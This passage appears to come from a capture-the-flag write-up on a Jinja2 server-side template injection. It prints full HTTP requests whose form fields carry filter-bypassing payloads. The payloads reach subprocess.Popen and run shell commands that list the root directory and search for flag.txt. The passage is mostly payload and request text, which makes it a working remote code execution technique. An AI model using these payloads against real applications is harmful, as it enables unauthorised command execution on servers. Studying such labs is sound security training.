 ```python
firstName=a&lastName=b&desc={% set string = "abc" %}{% set cls = string|attr(request.args.class) %}{% set mro = cls|attr(request.args.mro) %}{% set obj = mro|attr(request.args.getitem)(1) %}{% set subclasses = obj|attr(request.args.sc)() %}{% set popen = subclasses|attr(request.args.getitem)(411) %}{{popen('ls /',shell=True,stdout=-1).communicate()|safe}}
```
{% endraw %}


Shows the output of `ls /` command.

### Finding and Retrieving the Flag

Searching for flag.txt:

![wc18](/assets/playsecure2021/wc18.png)

{% raw %}
```python
POST /generate?class=__class__&mro=__mro__&getitem=__getitem__&sc=__subclasses__ HTTP/1.1
Host: web.ps.ctf.ae:8882
Content-Length: 397
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://web.ps.ctf.ae:8882
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://web.ps.ctf.ae:8882/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

firstName=a&lastName=b&desc={% set string = "abc" %}{% set cls = string|attr(request.args.class) %}{% set mro = cls|attr(request.args.mro) %}{% set obj = mro|attr(request.args.getitem)(1) %}{% set subclasses = obj|attr(request.args.sc)() %}{% set popen = subclasses|attr(request.args.getitem)(411) %}{{popen('find / -type f -name flag.txt 2> /dev/null',shell=True,stdout=-1).communicate()|safe}}
```
{% endraw %}
